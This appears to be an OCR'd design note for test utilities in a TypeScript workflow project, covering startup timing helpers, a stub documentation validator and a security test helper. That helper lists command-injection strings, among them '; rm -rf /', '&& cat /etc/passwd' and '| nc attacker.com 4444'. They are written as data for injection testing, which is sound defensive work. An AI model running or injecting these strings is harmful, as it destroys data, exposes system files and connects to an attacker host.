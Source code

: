 ```
**Enhanced Components**:
- Expand `test-utils.ts` with workflow-specific utilities
- Create `performance-utils.ts` for performance testing
- Create `security-test-utils.ts` for security testing
- Create `documentation-test-utils.ts` for doc validation

**New Utility Patterns**:
```typescript
// Performance utilities
export function measureStartupTime(workflowConfig: any): Promise<number> {
  return new Promise((resolve) => {
    const start = performance.now();
    const fsm = new StateMachine(workflowConfig, mockLogger);
    const duration = performance.now() - start;
    resolve(duration);
  });
}

// Complete workflow system startup measurement
export function measureCompleteSystemStartup(workflowFile: string): Promise<number> {
  return new Promise(async (resolve) => {
    const start = performance.now();
    
    // Complete startup sequence
    const workflows = await loadWorkflows(workflowFile);
    const parser = new WorkflowParser();
    const parsedWorkflows = parser.parse(workflows);
    const fsm = new StateMachine(parsedWorkflows.deploy, mockLogger);
    await fsm.prepareFirstState();
    
    const duration = performance.now() - start;
    resolve(duration);
  });
}

// Security test utilities
export function createMaliciousInputs(): string[] {
  return [
    '; rm -rf /',
    '&& cat /etc/passwd',
    '| nc attacker.com 4444',
    '`whoami`',
    '$(id)'
  ];
}

// Documentation validation utilities
export async function validateDocumentationExample(
  docPath: string,
  exampleBlock: string
): Promise<boolean> {
  // Extract and test documentation examples
}
```
